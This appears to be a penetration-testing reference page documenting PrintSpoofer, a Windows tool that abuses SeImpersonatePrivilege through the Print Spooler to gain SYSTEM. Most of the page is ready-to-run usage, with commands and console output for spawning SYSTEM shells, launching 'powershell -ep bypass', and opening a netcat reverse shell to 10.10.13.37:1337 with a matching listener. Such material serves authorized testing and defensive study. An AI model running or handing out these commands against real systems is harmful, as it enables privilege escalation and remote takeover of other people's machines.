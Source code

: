 ```yaml
---
title : "Printspoofer"
# pre : ' '
description : "From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019."
date : 2021-06-21T14:57:31+02:00
# hidden : true
# draft : true
weight : 80
# tags : ['']
---
```


---

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

More info at [itm4n.github.io](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Installation

Download latest release from [Github.com](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

{{%resources title="v1.0" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

## Usage

```plain
PrintSpoofer.exe [OPTIONS]
```

## Flags

```plain
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

## Usage 1: Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

Use case: bind shell, reverse shell, `psexec.py`, etc.

```plain
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 2: Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```plain
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```plain
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 3: Spawn a SYSTEM process on a desktop

If you are **logged on locally or via RDP** (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

Use case: Terminal Session (RDP), VDI

```plain
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

## URL List

- [Github.com - PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [itm4n.github.io - PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
